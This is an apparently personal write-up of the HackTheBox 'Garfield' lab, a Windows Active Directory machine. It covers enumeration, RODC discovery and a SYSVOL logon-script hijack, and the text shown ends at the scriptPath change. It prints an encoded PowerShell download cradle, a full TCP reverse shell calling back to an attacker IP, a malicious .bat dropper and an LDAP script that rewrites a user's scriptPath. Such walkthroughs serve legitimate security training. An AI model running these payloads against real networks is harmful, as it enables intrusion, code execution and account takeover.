<p align="center">
  
</p>

<h1 align="center">HackTheBox — Garfield</h1>
<p align="center"><b>Difficulty:</b> Hard &nbsp;|&nbsp; <b>OS:</b> Windows &nbsp;|&nbsp; <b>Author:</b> BALD</p>

---

Garfield, a hard difficulty HackTheBox Windows machine dealing with Active Directory abuse around a **Read‑Only Domain Controller (RODC)**. The box starts with a set of low‑privileged credentials and walks through LDAP/SMB enumeration, abusing a `WriteProperty` right over a user's `scriptPath` via a SYSVOL logon‑script hijack to catch a reverse shell, pivoting into a password reset on an admin‑tier account, taking over the RODC's administrative group, configuring Resource‑Based Constrained Delegation (RBCD) against it, and finally chaining a **forged RODC Golden Ticket with a Kerberos Key List attack** to trick the real Domain Controller into handing over the Administrator's NTLM hash — which is then used with pass‑the‑hash to get root.

## Table of Contents

- [1. Recon](#1-recon)
- [2. Foothold Enumeration (SMB/LDAP)](#2-foothold-enumeration-smbldap)
- [3. Discovering the RODC](#3-discovering-the-rodc)
- [4. SYSVOL Abuse → Logon Script Hijack](#4-sysvol-abuse--logon-script-hijack)
- [5. User Flag — Shell as l.wilson](#5-user-flag--shell-as-lwilson)
- [6. Privilege Escalation Path to Root](#6-privilege-escalation-path-to-root)
  - [6.1 Taking Over RODC Administrators](#61-taking-over-rodc-administrators)
  - [6.2 RBCD Against the RODC](#62-rbcd-against-the-rodc)
  - [6.3 Modifying the Password Replication Policy](#63-modifying-the-password-replication-policy)
  - [6.4 RODC Golden Ticket + Key List Attack](#64-rodc-golden-ticket--key-list-attack)
- [7. Root Flag](#7-root-flag)
- [8. Summary of the Attack Chain](#8-summary-of-the-attack-chain)

---

## 1. Recon

As usual, we kick things off with a full TCP port scan against the target.

```bash
nmap -sC -sV -p- --min-rate 5000 10.129.22.139
```




Relevant findings from the scan:

| Port | Service | Notes |
|------|---------|-------|
| 53   | DNS     | Simple DNS Plus |
| 88   | Kerberos | `garfield.htb` realm |
| 135/139/445 | RPC/SMB | `microsoft-ds`, signing **enabled & required** |
| 389/3268 | LDAP / GC | Domain: `garfield.htb` |
| 464  | kpasswd | Password change service |
| 3389 | RDP | Cert CN = `DC01.garfield.htb` |
| 5985 | WinRM | reachable, worth testing |
| 9389 | ADWS | .NET Message Framing |

Quick summary:

- `DC01.garfield.htb` is a Domain Controller running **Windows Server 2019**.
- SMB signing is **required**, which rules out NTLM relay attacks.
- There is a noticeable clock skew of roughly **+8 hours** between the attack box and the DC — important to keep in mind for anything Kerberos‑related later on (`MaxClockSkew` and `ntpdate`/`faketime` become relevant).
- WinRM is open — worth testing the supplied credentials directly.

Added the domain to `/etc/hosts`:



## 2. Foothold Enumeration (SMB/LDAP)

As is common for real‑life Active Directory assessments, this box starts with a set of **assumed‑breach credentials** for the account `j.arbuckle`. The first thing to try is WinRM directly — it doesn't work — so we pivot to validating the creds over SMB instead:

```bash
netexec smb 10.129.22.139 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'
```



Credentials check out. Enumerating available shares shows nothing unusual at first glance — just the default `ADMIN$`, `C$`, `IPC$`, `NETLOGON` and `SYSVOL`:

```bash
netexec smb 10.129.22.139 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
```



Next, enumerate domain users over LDAP:

```bash
netexec ldap 10.129.22.139 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users
```



Only 7 domain users, but two entries stand out immediately:

- **`krbtgt_8245`** → the description literally says *"Key Distribution Center service account for read‑only domain controller"*. This tells us there is an **RODC** somewhere in this environment.
- **`l.wilson_adm`** → almost certainly the privileged/admin‑tier counterpart of the regular user `l.wilson`, and it already shows 2 bad password attempts (someone — or something automated — is trying to log in as it).

Collecting data for BloodHound:

```bash
bloodhound-python -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -d garfield.htb -ns 10.129.22.139 -c all
```



> Note the `WARNING: Failed to get Kerberos TGT... Clock skew too great` — consistent with the ~8h offset seen in the nmap scan. BloodHound still falls back to NTLM and completes the collection fine.

BloodHound itself doesn't reveal an obvious attack path right away beyond `j.arbuckle` being a member of the **IT Support** group — but that membership turns out to be the key to everything.

## 3. Discovering the RODC

Since `krbtgt_8245` hinted at an RODC, let's pull its AD object directly over LDAP:

```bash
ldapsearch -x -H ldap://10.129.22.139 -D 'j.arbuckle@garfield.htb' -w 'Th1sD4mnC4t!@1978' \
  -b 'DC=garfield,DC=htb' '(primaryGroupID=521)' -LLL
```





This returns the computer object for **`RODC01`**, and it's full of useful information:

- `msDS-KrbTgtLink` → points to `krbtgt_8245`, confirming that this is the RODC's own KDC service account.
- `msDS-RevealedUsers` includes an entry for **`CN=Administrator`** — meaning the Administrator's credentials are **already cached/revealed on the RODC**.
- `msDS-NeverRevealGroup` lists the usual suspects by default: *Denied RODC Password Replication Group*, *Account Operators*, *Server Operators*, *Backup Operators* and *Administrators* — all of which indirectly block Administrator's hash from ever being replicated under normal circumstances.
- `msDS-RevealOnDemandGroup` points at *Allowed RODC Password Replication Group*.

In short: **if we can get our hands on the RODC's krbtgt key, or compromise the RODC outright, we may be able to request privileged credentials that have been cached there** — this becomes the backbone of the privilege escalation chain later on.

Checking who belongs to the *Allowed RODC Password Replication Group*:

```bash
ldapsearch -x -H ldap://10.129.22.139 -D 'j.arbuckle@garfield.htb' -w 'Th1sD4mnC4t!@1978' \
  -b 'DC=garfield,DC=htb' '(cn=Allowed RODC Password Replication Group)' member -LLL
```

The group is empty. We also resolve the RODC's address:

```bash
nslookup RODC01.garfield.htb 10.129.22.139
```



`RODC01.garfield.htb` resolves to `192.168.100.2` — an **internal network segment we don't have direct access to**. So reaching the RODC directly isn't an option yet; we need another way in.

Looking at the BloodHound data for ACLs on `RODC01` and on `l.wilson` shows no direct path from `j.arbuckle` to either of them — we need to find a different foothold first.

## 4. SYSVOL Abuse → Logon Script Hijack

Going back to basics: `SYSVOL` is a share present on every Domain Controller, containing Group Policy Objects and logon/logoff scripts. Let's pull its contents down:

```bash
smbclient //10.129.22.139/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' \
  -c 'recurse ON; prompt OFF; mget *'
```



Interesting files:

- `scripts/printerDetect.bat` — a logon script referenced by `NETLOGON`.
- `Policies/{GUID}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf` — contains local security policy settings pushed by GPO.

Checking the first `GptTmpl.inf`:



```ini
[Privilege Rights]
SeBatchLogonRight = *S-1-5-32-559,l.wilson,*S-1-5-32-551,*S-1-5-32-544
```

`SeBatchLogonRight` lets an account run as a scheduled task. The fact that **`l.wilson` is explicitly listed** strongly suggests there's a **scheduled task running as `l.wilson` on the DC**, most likely tied to a logon script.

The second `GptTmpl.inf` reveals a very permissive password policy:



```ini
[System Access]
LockoutBadCount = 0
PasswordComplexity = 0
```

No account lockout policy and no complexity requirement — handy to know, though not directly needed for this path.

The real breakthrough comes from testing **write access** to `SYSVOL`:

```bash
smbclient //10.129.22.139/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' \
  -c 'cd garfield.htb\scripts; put /tmp/test.txt test.txt'
```



**We can write to `SYSVOL`.** This changes everything — `j.arbuckle` is a member of **IT Support**, and a DACL check confirms why:

```bash
impacket-dacledit garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -dc-ip 10.129.22.139 \
  -target 'l.wilson' -action read
```



The **IT Support** group holds `ReadProperty`/`WriteProperty` rights over the **`Script-Path`** attribute of domain users (inherited ACE, trustee = *IT Support*). That means we can overwrite `l.wilson`'s `scriptPath` attribute and point it at a malicious `.bat` file that we drop into `SYSVOL\scripts`. The next time the scheduled logon‑script task fires for `l.wilson`, our payload executes.

### Building the payload

Because the reverse‑shell one‑liner contains characters (`'`, `(`, `)`, `;`) that break inside a `.bat` file, we base64‑encode a UTF‑16LE PowerShell command instead — a standard `-EncodedCommand` payload that just downloads and runs a second‑stage script:

```bash
PAYLOAD=$(echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.15.78:8000/shell.ps1')" \
  | iconv -t UTF-16LE | base64 -w 0)
echo -e "@echo off\npowershell -enc $PAYLOAD" > /tmp/evil.bat
```




The resulting `evil.bat`:

```bat
@echo off
powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADcAOAA6ADgAMAAwADAALwBzAGgAZQBsAGwALgBwAHMAMQAnACkA
```

The `.ps1` it fetches is a minimal interactive PowerShell reverse shell over raw TCP, connecting back on port 443:

```powershell
$c = New-Object System.Net.Sockets.TCPClient('10.10.15.78',443)
$s = $c.GetStream()
[byte[]]$b = 0..65535|%{0}
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i)
    $r = (iex $d 2>&1 | Out-String)
    $r2 = $r + "PS " + (pwd).Path + "> "
    $sb = ([text.encoding]::ASCII).GetBytes($r2)
    $s.Write($sb,0,$sb.Length); $s.Flush()
}
$c.Close()
```



**Why not just run `net user /domain` straight from the bat?** Because the scheduled task for `l.wilson` actually executes **from `RODC01`**, which sits on the internal `192.168.100.2` network. The RODC is read‑only, so any attempt to write back to the domain (`net user /domain ...`) gets an `Access Denied`, and we can't reach the RODC directly with tools like Responder either — it simply can't route to our attacking IP over SMB. A full interactive reverse shell as `l.wilson` sidesteps all of that.

The attack flow end‑to‑end:

```
evil.bat (in SYSVOL) → PowerShell downloads shell.ps1 (our HTTP server)
                      → shell.ps1 connects back to our listener (port 443)
                      → interactive shell as l.wilson
```

Set up the HTTP server and the listener:

```bash
cd /tmp && python3 -m http.server 8000
```


```bash
sudo nc -nlvp 443
```


Upload `evil.bat` to the `scripts` folder in SYSVOL:

```bash
smbclient //10.129.22.139/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' \
  -c 'cd garfield.htb\scripts; put /tmp/evil.bat evil.bat'
```


And finally point `l.wilson`'s `scriptPath` at it, via LDAP:

```python
import ldap3
s = ldap3.Server('10.129.22.139')
c = ldap3.Connection(s, 'garfield.htb\\j.arbuckle', 'Th1sD4mnC4t!@1978', authentication=ldap3.NTLM)
c.bind()
c.modify('CN=Liz Wilson,CN=Users,DC=garfield,DC=htb',
         {'scriptPath': [(ldap3.MODIFY_REPLACE, ['evil.bat'])]})
print(c.result)
```

